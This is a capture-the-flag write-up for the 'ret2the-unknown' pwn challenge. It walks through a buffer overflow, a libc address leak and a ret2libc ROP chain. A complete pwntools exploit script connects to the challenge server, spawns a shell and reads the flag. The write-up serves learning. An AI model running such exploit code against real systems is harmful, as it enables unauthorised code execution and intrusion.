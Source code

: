 # ret2the-unknown

<p align="center">
    <kbd><img src="images/ret2theunknown-1.png" caption="Challenge" /></kbd><br/>
</p>

The challenge description has hinted that it is a ret2libc challenge

At line 17 of the source code, it is clear that the program is vulnerable to buffer overflow

<p align="center">
    <kbd><img src="images/ret2theunknown-2.png" caption="Challenge" /></kbd><br/>
</p>

To start, fuzz the input <br />
```
$ pattern_create 100 
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
``` 

Run the program and provides the above payload. It segfaults at ret instruction <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-3.png" caption="Challenge" /></kbd><br/>
</p>

Looking at the registers, I can identify the return address <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-4.png" caption="Challenge" /></kbd><br/>
</p>

```
$ pattern_offset AA0AAFA
AA0AAFA found at offset: 40
```

So, I need to spray 40 random characters in order to control RIP.

From the source code, I know that the address of printf function is leaked.

From the program, I know that ASLR is enabled.
<p align="center">
    <kbd><img src="images/ret2theunknown-5.png" caption="Challenge" /></kbd><br/>
</p>

Idea to pwn this challenge: Overwrite the value of RIP to address of main function so that it reruns the program. Then, obtain the address of printf function from the output and used it to find the base libc address. Once I have updated the base libc address, I can get the address of `system` as well as the strings `/bin/sh`. I also obtain ROP gadget `pop rdi; ret` from the binary (pass `/bin/sh` as an argument to `system`).

Using [ropper](https://github.com/sashs/Ropper), I know that there exists “pop rdi; ret” gadget in the binary. <br />
`$ python3 Ropper.py -f ../ret2the-unknown --search "% ?di"` <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-6.png" caption="Challenge" /></kbd><br/>
</p>

Following the idea mentioned above, I created the script to perform my exploit.

```
from pwn import *

# Loading ELF files
binary = ELF('./ret2the-unknown')
linker = ELF('./ld-2.28.so')
libc = ELF('./libc-2.28.so')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

p = remote('mc.ax', 31568)
#p = process(binary.path)
res = p.recvuntil('there safely?\n')
print(res.decode('latin-1'))
payload = b'A' * 40
payload += p64(binary.symbols['main'])
p.sendline(payload)
printf_addr = p.recvuntil('good luck!\n').split(b'there:')[1].strip().split(b'\n')[0].strip().decode()
print("printf_addr: " + printf_addr)
print("printf_offset: " + hex(libc.symbols['printf']))
res = p.recvuntil('there safely?\n')
print(res)

# finding the base adddress
libc_base_addr = int("0x" + printf_addr, 16) - libc.symbols['printf']
print(hex(libc_base_addr))
libc.address = libc_base_addr   # update libc address

payload = b'A' * 40
payload += p64(pop_rdi + 1) # trick to handle stack misalignment (as pop rdi - 2 bytes, ret - 1 byte) (pop_rdi + 1 is ret instruction)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

```
$ python3 exploit-ret2libc.py
[snip]
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?

printf_addr: 7fb461c48560
printf_offset: 0x58560
b"that board meeting was a *smashing* success! rob loved the challenge!\nin fact, he loved it so much he sponsored me a business trip to this place called 'libc'...\nwhere is this place? can you help me get there safely?\n"
0x7fb461bf0000
[*] Switching to interactive mode
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7fb461c48560
good luck!
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
[*] Got EOF while reading in interactive

flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
```

# Resources
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html
https://github.com/Gallopsled/pwntools-tutorial